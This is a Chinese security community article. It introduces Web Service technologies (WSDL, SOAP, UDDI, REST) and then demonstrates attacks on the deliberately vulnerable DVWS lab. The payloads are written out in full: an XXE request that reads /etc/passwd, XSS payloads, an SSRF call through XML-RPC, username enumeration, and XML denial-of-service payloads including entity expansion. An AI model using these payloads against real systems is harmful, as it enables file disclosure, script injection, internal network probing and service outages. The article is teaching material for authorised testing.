

# Web Service 安全技术概览 - 先知社区

Web Service 安全技术概览

- - -

## 基本介绍

Web Service 也被称之为"XML Web Service"，它是一种跨语言和跨平台的远程调用 (RPC) 技术，主要通过使用标准的 Internet 协议来提供和接收数据的方式，允许不同的应用程序在不同的平台和编程语言之间进行通信，Web Service 通常使用基于标准的 XML(可扩展标记语言) 格式来编写和传输数据，它们使用 HTTP(超文本传输协议) 作为通信协议并支持使用 SOAP、REST 等协议进行通信

## 工作原理

Web Service 的工作原理可以总结为以下几个步骤：

-   描述服务：Web 服务通常使用 WSDL(Web 服务描述语言) 来描述服务的功能、接口和数据格式，WSDL 是一种基于 XML 的标准，它提供了一种统一的方式来描述 Web 服务的特性，使服务提供者和消费者能够理解和交互
-   公开服务：Web Service 可以通过以下多种方式来公开服务，下面是几种常见的方法
    -   Web 服务注册表：Web 服务注册表是一种集中管理和发布 Web 服务的机制，服务提供者将其服务描述 (例如：WSDL 文件) 注册到注册表中并提供有关服务的信息和访问地址，服务消费者可以通过查询注册表来找到所需的服务并获取相应的服务描述和访问信息
    -   UDDI(Universal Description, Discovery, and Integration)：UDDI 是一种标准的服务注册和发现协议，用于构建和管理 Web 服务注册表，它提供了一种统一的方式来描述和访问 Web 服务并支持服务的分类、搜索和查询
    -   直接公开 URL：服务提供者可以将其服务部署到 Web 服务器上并通过 URL(统一资源定位符) 来公开服务，服务消费者可以直接使用服务的 URL 来访问服务并根据服务的描述和接口进行交互
    -   发布到服务目录：服务提供者可以将其服务描述 (例如:WSDL 文件) 发布到服务目录或文档中，例如：企业内部的服务目录或在线文档库，服务消费者可以浏览目录或搜索文档以找到所需的服务并获取相关的服务描述和访问信息
    -   使用 API 管理平台：API 管理平台是一种用于管理和公开 Web 服务的集成平台，它提供了一套工具和功能，帮助服务提供者将其服务注册、文档化、安全保护并向服务消费者提供访问权限和控制
-   访问服务：服务消费者通过使用服务的 URL 或其他服务发现机制来找到所需的服务，消费者一旦找到服务就可以根据 WSDL 文件了解服务的功能和调用方式
-   构建请求：服务消费者根据服务的 WSDL 文件构建请求并将其封装为适当的格式，例如：SOAP 消息或 RESTFUL 请求，请求可能包含输入参数、身份验证信息等
-   发送请求：服务消费者通过 HTTP 协议将请求发送给 Web 服务的 URL，请求通过网络传输到服务提供者的服务器
-   处理请求：服务提供者的服务器接收到请求后根据请求中的信息找到相应的服务并调用相应的功能，随后根据请求中的参数执行所需的操作并生成相应的结果
-   构建响应：服务提供者将执行结果封装为适当的格式，例如:SOAP 响应或 RESTFUL 响应，响应可能包含输出参数、错误信息等
-   返回响应：服务提供者的服务器将响应发送回服务消费者，响应通过 HTTP 协议传输到消费者的应用程序
-   解析响应：消费者的应用程序接收到响应后解析响应并提取所需的数据或结果，应用程序可以根据响应进行后续的处理和逻辑操作

## 简易分类

Web 服务可以分为以下几个主要类别：

-   SOAP Web 服务：SOAP(Simple Object Access Protocol) 是一种基于 XML 的协议，用于在网络上进行应用程序之间的通信，SOAP Web 服务使用 SOAP 消息格式作为数据交换的基础，通常通过 HTTP 协议进行传输，SOAP Web 服务提供了基于操作的接口定义并使用 WSDL 来描述服务的功能和接口
-   RESTful Web 服务：REST(Representational State Transfer) 是一种基于 Web 的架构风格，用于构建分布式系统，RESTful Web 服务使用 HTTP 协议的各种方法 (例如：GET、POST、PUT、DELETE) 来进行资源的增删改查操作，RESTful Web 服务通常使用 JSON 或 XML 作为数据格式并使用 URL 来标识和访问资源
-   XML-RPC：XML-RPC 是一种远程过程调用 (RPC) 协议，用于在不同的计算机之间进行通信，XML-RPC 使用 XML 格式进行数据交换并通过 HTTP 协议进行传输，它提供了一种简单的方式来调用远程方法并将参数和结果封装在 XML 消息中
-   JSON-RPC：JSON-RPC 是一种轻量级的远程过程调用协议，用于在网络上进行通信，JSON-RPC 使用 JSON 格式作为数据交换的基础并通过 HTTP 协议进行传输，它提供了一种简单的方式来调用远程方法并将参数和结果封装在 JSON 消息中
-   Web Socket：Web Socket 是一种在 Web 浏览器和服务器之间进行全双工通信的协议，它允许在单个持久连接上进行双向通信，而无需为每个请求创建新的连接，Web Socket 使用标准 HTTP 协议进行握手并在建立连接后使用自定义的协议进行数据交换

## 关键要素

Web Service 三要素包括 WSDL(WebServicesDescriptionLanguage)、SOAP(Simple Object Access Protocol)、UDDI(UniversalDescriptionDiscovery andIntegration)，其中 WSDL 用来描述如何访问具体的接口、SOAP 用来描述传递信息的格式、UDDI 用来管理分发查询 Web Service

### WSDL 技术

#### 基本介绍

WSDL(Web Services Description Language，Web 服务描述语言) 是一种用于描述 Web 服务的 XML 格式语言，它提供了一种标准的方式来描述 Web 服务的接口、消息格式和协议细节，WSDL 定义了服务的结构和功能，使得服务提供者和消费者可以相互理解和交互

#### 简易示例

下面是一个简单的 WSDL 示例代码：

```plain
<definitions xmlns="http://schemas.xmlsoap.org/wsdl/"
             xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
             targetNamespace="http://example.com/stockquote.wsdl">
    <types>
        <schema targetNamespace="http://example.com/stockquote.xsd"
                xmlns="http://www.w3.org/2001/XMLSchema">
            <element name="GetStockPriceRequest">
                <complexType>
                    <sequence>
                        <element name="symbol" type="string"/>
                    </sequence>
                </complexType>
            </element>
            <element name="GetStockPriceResponse">
                <complexType>
                    <sequence>
                        <element name="price" type="decimal"/>
                    </sequence>
                </complexType>
            </element>
        </schema>
    </types>
    <message name="GetStockPriceInput">
        <part name="parameters" element="tns:GetStockPriceRequest"/>
    </message>
    <message name="GetStockPriceOutput">
        <part name="parameters" element="tns:GetStockPriceResponse"/>
    </message>
    <portType name="StockQuotePortType">
        <operation name="GetStockPrice">
            <input message="tns:GetStockPriceInput"/>
            <output message="tns:GetStockPriceOutput"/>
        </operation>
    </portType>
    <binding name="StockQuoteBinding" type="tns:StockQuotePortType">
        <soap:binding style="document" transport="http://schemas.xmlsoap.org/soap/http"/>
        <operation name="GetStockPrice">
            <soap:operation soapAction="http://example.com/stockquote/GetStockPrice"/>
            <input>
                <soap:body use="literal"/>
            </input>
            <output>
                <soap:body use="literal"/>
            </output>
        </operation>
    </binding>
    <service name="StockQuoteService">
        <port name="StockQuotePort" binding="tns:StockQuoteBinding">
            <soap:address location="http://example.com/stockquote"/>
        </port>
    </service>
</definitions>
```

上面的这段示例代码描述了一个名为"StockQuoteService"的股票报价 Web 服务，下面是代码结构的详细解释：

-   definitions 元素：定义了 WSDL 文档的命名空间和目标命名空间
-   types 元素：定义了 WSDL 中使用的数据类型，在示例中通过 schema 元素定义了两个数据类型：GetStockPriceRequest 和 GetStockPriceResponse
-   message 元素：定义了 WSDL 中使用的消息，在示例中定义了两个消息：GetStockPriceInput 和 GetStockPriceOutput，它们分别使用了前面定义的数据类型
-   portType 元素：定义了服务接口，即提供的操作和消息交换模式，在示例中定义了一个名为 StockQuotePortType 的接口，其中包含一个名为 GetStockPrice 的操作
-   binding 元素：绑定了服务接口和具体的传输协议，在示例中使用 SOAP 协议进行绑定并指定了 HTTP 作为传输协议
-   service 元素：定义了服务的名称和端口信息，在示例中定义了名为 StockQuoteService 的服务并包含一个名为 StockQuotePort 的端口
-   soap:address 元素：定义了服务的访问地址，在示例中指定了服务的地址为[http://example.com/stockquote](http://example.com/stockquote)

### SOAP 技术

#### 基本介绍

SOAP(Simple Object Access Protocol) 是一种基于 XML 的通信协议，用于在网络上进行应用程序之间的信息交换，它定义了一种标准的消息格式和传输协议，使得不同平台上的应用程序可以相互通信

#### 简易示例

下面是一个简单的 SOAP 示例代码及其详细解释：

```plain
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Header>
    <!-- 可选的 SOAP 头部信息 -->
  </soap:Header>
  <soap:Body>
    <GetStockPrice xmlns="http://example.com/stockquote">
      <symbol>GOOGL</symbol>
    </GetStockPrice>
  </soap:Body>
</soap:Envelope>
```

这段示例代码展示了一个基本的 SOAP 消息，下面是代码结构的详细解释：

-   soap:Envelope 元素：根元素，定义了 SOAP 消息的 XML 命名空间和 SOAP 版本
-   soap:Header 元素：可选的 SOAP 头部信息，在示例中未包含任何头部信息
-   soap:Body 元素：包含了实际的 SOAP 消息体，在示例中使用了一个名为 GetStockPrice 的自定义操作
-   GetStockPrice 元素：自定义操作的名称，它位于[http://example.com/stockquote命名空间下](http://example.com/stockquote%E5%91%BD%E5%90%8D%E7%A9%BA%E9%97%B4%E4%B8%8B)
-   <symbol>GOOGL</symbol>元素：操作的参数，用于指定股票的符号 (symbol)，在示例中指定了股票符号为"GOOGL"

简易的文档结构示例图如下所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202093419-2f54cea4-c16b-1.png)

### 传输协议

SOAP 消息以 XML 格式进行编码和传输，可以通过不同的协议 (例如:HTTP、SMTP 等) 进行传输，SOAP 允许在消息中定义操作、参数和数据类型等信息以便发送方和接收方之间的交互能够正确解析和处理

### UDDI 技术

#### 基本介绍

UDDI(Universal Description, Discovery, and Integration) 是一种用于描述、发现和集成 Web 服务的技术标准，它提供了一种机制来注册、发布和查找 Web 服务的信息，使得服务提供者和消费者能够相互发现和使用 Web 服务

#### 简易示例

下面是一个简单的 UDDI 示例代码及其详细解释

```plain
<find_business xmlns="urn:uddi-org:api_v3">
  <findQualifiers>
    <findQualifier>exactNameMatch</findQualifier>
  </findQualifiers>
  <name>StockQuoteService</name>
</find_business>
```

下面是代码结构的详细解释：

-   find\_business 元素：定义了 UDDI 查询消息的 XML 命名空间和操作类型
-   findQualifiers 元素：定义了查询的限定符 (qualifier)，用于指定查询的行为，在示例中使用了 exactNameMatch 限定符，表示精确名称匹配
-   name 元素：指定了要查询的服务名称，在示例中要查找的服务名称为"StockQuoteService"

### REST 技术

#### 基本介绍

REST(Representational State Transfer) 是一种用于设计网络应用程序的架构风格，它基于一组原则和约束，旨在提供简单、可扩展、可靠和可互操作的系统，REST 使用标准的 HTTP 协议和方法来进行通信并以资源为中心进行设计

#### 资源操作

REST 使用 HTTP 作为通信协议，通过不同的 HTTP 方法对资源进行操作，以下是常见的 HTTP 方法和其对应的操作

-   GET：获取资源
-   POST：创建新资源
-   PUT：更新现有资源
-   DELETE：删除资源

下面是一个简单的示例代码：

```plain
GET /api/products/1234 HTTP/1.1
Host: example.com
```

## 文件解析

在遇到类似[http://192.168.204.161/Vulnerable.asmx?wsdl](http://192.168.204.161/Vulnerable.asmx?wsdl) 的错乱的文件时，我们除了可以直接看提供的 SOAP 接口信息之外，我们还可以借助 Burpsuite 的 WSDLer 插件对此进行解析

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202093640-832fd1f4-c16b-1.png)

下面时我们对 wsdl 请求在 burpsuite 中的解析操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202093706-93267644-c16b-1.png)

随后我们即可获取到对应的可调用的接口列表信息并对其进行 Fuzzing 测试

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202093731-a1e942ba-c16b-1.png)

## 安全漏洞

在设计开发或配置 Web 服务时可能存在的弱点或缺陷，可能导致未授权访问、信息泄露、拒绝服务、跨站脚本 (XSS)、跨站请求伪造 (CSRF) 等安全问题

### 实体注入

如果包含外部实体引用的 XML 输入由弱配置的 XML 解析器处理时会发生 XML 外部实体 (XXE) 注入，此类攻击可能导致机密数据泄露、拒绝服务、服务器端请求伪造等，常见的是 Web 服务或 API 支持来自用户的 XML 数据，在 DVWS 中通过访问显示 SOAP 服务器支持的操作的[http://192.168.204.160/dvwsuserservice?wsdl](http://192.168.204.160/dvwsuserservice?wsdl) 来浏览该服务器  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202093800-b35329da-c16b-1.png)

WSDL 操作表明可以向 SOAP 服务发送以下请求来查看用户是否存在

```plain
POST /dvwsuserservice/ HTTP/1.1
Host: 192.168.204.160
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
SOAPAction: Username
Content-Type: text/xml;charset=UTF-8
Content-Length: 469

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">geroet</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202093832-c6492bca-c16b-1.png)  
SOAP 服务器用来解析该请求的 XML 库允许使用外部实体，因此我们可以利用它从 SOAP 服务中读取任意文件

```plain
POST /dvwsuserservice/ HTTP/1.1
Host: 192.168.204.160
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
SOAPAction: Username
Content-Type: text/xml;charset=UTF-8
Content-Length: 579

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&exploit;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202093903-d859fbc8-c16b-1.png)

### XSS 攻击

跨站脚本 (XSS) 攻击发生在可能将恶意脚本注入应用程序并被受害者查看的地方，在 SOAP 中的 XSS 其实和传统的 Web 应用中的 XSS 也相差不大，只是数据包的构造方式有一些差别，在 DVWS 管理员用户搜索区域中存在 XSS 漏洞，我们可以发送 HTML 编码后的 JavaScript 到服务器端，例如：<script>alert(1)</script> ，如下是一个简易的发送示例：

```plain
POST /dvwsuserservice HTTP/1.1
Host: 192.168.204.160
Content-Length: 493
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
Authorization: Bearer null
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.204.160
Referer: http://192.168.204.160/admin.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&lt;script&gt;alert(1)&lt;/script&gt;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202093948-f36e0e18-c16b-1.png)

细心的朋友也许可能会发现其实在 DVWS 的登录区域中也存在一处 XSS 漏洞，注册用户时我们将一下请求发送到后端 API

```plain
POST /api/v2/users HTTP/1.1
Host: 192.168.204.160
Content-Length: 60
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin"><svg/onload=alert(/a/)>&password=12345678
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094016-040dd960-c16c-1.png)

在这里我们还要扩展一个通过上传 XML 文件导致 XSS 的示例，构造如下带有 XHTML 的 XML 文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<xhtml:html xmlns:xhtml="http://www.w3.org/1999/xhtml">
<xhtml:script>
    alert(1)
    </xhtml:script>
</xhtml:html>
```

随后进行文件上传操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094044-1491b66c-c16c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094049-17f98014-c16c-1.png)

### SSRF 攻击

服务器端请求伪造 (SSRF) 在 SOAP 中也比较常见，攻击者可以在该漏洞中生成将由应用程序启动的请求，然后可以利用这一点向第三方系统发出请求，例如：进行端口扫描、访问内网应用、进行文件读取等，某些 API 或 RPC 服务可能提供从其他 API/应用程序以 HTTP 请求参数的形式获取数据的功能，在这些情况下，我们可以利用 API 来执行端口扫描等操作，在 DVWS 应用程序的端口 9090 中可以使用 XML-RPC 服务，在 DVWS 节点应用程序中有关此 XML-RPC 服务使用的提示显示在的代码注释中[http://192.168.204.160/error.html](http://192.168.204.160/error.html) 这些信息也可以通过暴力强制找到[http://192.168.204.160:9090/xmlrpc](http://192.168.204.160:9090/xmlrpc) 服务器

```plain
POST /xmlrpc HTTP/1.1
Host: 192.168.204.160:9090
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
Content-Length: 174
Content-Type: application/x-www-form-urlencoded

<?xml version="1.0"?><methodCall><methodName>dvws.CheckUptime</methodName><params><param><value><string>http://127.0.0.1/uptime</string></value></param></params></methodCall>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094118-28f84f26-c16c-1.png)

### 任意用户枚举

用户名枚举是一种侦察攻击活动，在这种活动中攻击者试图从可用于实施暴力攻击的 API/应用程序中检索有效用户名，应用程序中最容易受到此类攻击的区域是登录页面、注册页面或密码重置页面，在 dvws-node 中的存在多个点位允许枚举用户名  
1、用户注册接口：

```plain
POST /api/v2/users HTTP/1.1
Host: 192.168.204.160
Content-Length: 30
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.204.160
Referer: http://192.168.204.160/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin&password=123456
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094148-3aed76fc-c16c-1.png)

2、XML-RPC Service  
首先访问 wsdl 文件并使用 burpsuite 进行解析操作：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094203-43b54bca-c16c-1.png)  
随后得到如下接口信息：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094217-4c2d8e3e-c16c-1.png)  
随后调用接口可以看到回显提示"User Not Found：geroet"，说明 用户不存在，同时也说明我们这里阔以进行枚举操作

```plain
POST /dvwsuserservice/ HTTP/1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
SOAPAction: Username
Content-Type: text/xml;charset=UTF-8
Host: dvws.local
Content-Length: 470

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">gero et</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094243-5baad59c-c16c-1.png)

### 拒绝服务攻击

Web Service 服务的交互很多都是用的 XML 格式数据，请求中的 XML 数据会由服务端的 XML 解析器进行解析和处理，目前主要有两类 XML 解析器

-   基于 SAX(Simple API for XML) 的 XML 解析器：内存中最多容纳 2 个元素，在这种情况下基于 SAX 的解析器不会存在 DoS 问题
-   基于 DOM(Document Object Model) 的 XML 解析器：会一次性读取客户端存储的所有 XML 数据，因此会导致内存中存在庞大的对象数据从而导致存在 DoS 问题，漏洞根源在于没有检查 XML 中节点的大小和数量

针对元素名称的 DoS 攻击的示例：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header/>
    <soapenv:Body>
    <TEST>
        <BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA………BGABGABGABGABGABGABGABGABGABGA>
    </TEST>
    </soapenv:Body>
</soapenv:Envelope>
```

针对元素属性的 DoS 攻击的示例：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header/>
    <soapenv:Body>
    <TEST>
        <BGA attribute="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA………BGABGABGABGABGABGABGABGABGABGA"></BGA>
    </TEST>
    </soapenv:Body>
</soapenv:Envelope>
```

针对元素个数的 DoS 攻击的示例 (也可以通过重复某个特定元素达到同样效果)：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header/>
        <soapenv:Body>
        <TEST>
            <BGA attribute1="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA" attribute2="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA" attribute3="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA...BGABGABGABGABGABGABGABGABGABGA"></BGA>
        </TEST>
    </soapenv:Body>
</soapenv:Envelope>
```

当然存在 XXE 时就可以进行 XXE DoS 攻击：

```plain
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE bga [
    <!ELEMENT ANY >
    <!ENTITY bga1 "bga1">
    <!ENTITY bga2 "&bga1;&bga1;&bga1;&bga1;&bga1;&bga1;">
    <!ENTITY bga3 "&bga2;&bga2;&bga2;&bga2;&bga2;&bga2;">
    <!ENTITY bga4 "&bga3;&bga3;&bga3;&bga3;&bga3;&bga3;">
    <!ENTITY bga5 "&bga4;&bga4;&bga4;&bga4;&bga4;&bga4;">
    <!ENTITY bga6 "&bga5;&bga5;&bga5;&bga5;&bga5;&bga5;">
   ]>
<bga>&bga6;</bga>
```

## 漏洞扫描

很多人可能会说这里的接口有没有可以进行一次性扫描检测的方法呢？当然有，作为甲方安全人员或者授权的安全评估人员我们可以借助 ReadyAPI([https://www.soapui.org/](https://www.soapui.org/) ) 进行快速的安全扫描测试评估，这里对步骤进行简单介绍，更加细节的部分可以自行进行深入，工具部分不多做演示介绍

Step 1：为了进一步观察这里的测试时怎么进行的，我们第一步先设置 Burp 代理，在 File->Preferences->Proxy 中设置 Burp 代理服务器地址  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094430-9bc14666-c16c-1.png)  
Step 2：新建安全测试任务，选择 WSDL 相关的 API 模块定义

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094440-a1beb1de-c16c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094446-a4f530bc-c16c-1.png)

Step 3：随后输入 WSDL 文件的路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094456-aaff2f26-c16c-1.png)

Step 4：WSDL 解析完成后会自动生成一系列的安全测试用例，默认都选上安全测试用例，点击 Finish，然后运行测试用例  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094509-b2999c9e-c16c-1.png)

Step 5：随后直接运行即可  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094517-b76be90c-c16c-1.png)

Step 6：运行完成之后可以查看对应的报告  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202094554-cd8854d2-c16c-1.png)

## 文末小结

本篇文章主要介绍了 WebService 的基础知识、工作原理、简易分类、关键要素和安全漏洞，同时对 WebService 的渗透测试扫描进行了一个大致的普及，最后对目标 WebService 服务的检索方法进行了简易的概括~
